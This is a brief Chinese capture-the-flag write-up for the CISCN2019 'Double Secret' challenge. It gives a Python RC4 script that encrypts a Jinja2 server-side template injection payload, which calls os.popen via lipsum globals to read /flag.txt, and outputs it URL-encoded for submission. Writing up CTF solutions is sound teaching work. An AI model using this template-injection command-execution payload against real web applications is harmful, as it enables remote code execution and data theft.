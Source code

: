 # WP
[[CISCN2019 华东南赛区]Double Secret_bfengj的博客-CSDN博客](https://blog.csdn.net/rfrder/article/details/114436926)
# 知识点
`RC4`加密<br />因为`RC4`是通过异或加密且为对称密码，所以`RC4`的加密与解密算法相同
```python
import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    print("%s" %quote(cipher))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
rc4_main("HereIsTreasure","{{lipsum.__globals__.__builtins__.eval(\"__import__('os').popen('cat /flag.txt').read()\")}}")

```
或者使用`cyberchef`<br />![image.png](./images/20231017_2356419363.png)<br />`SSTI`
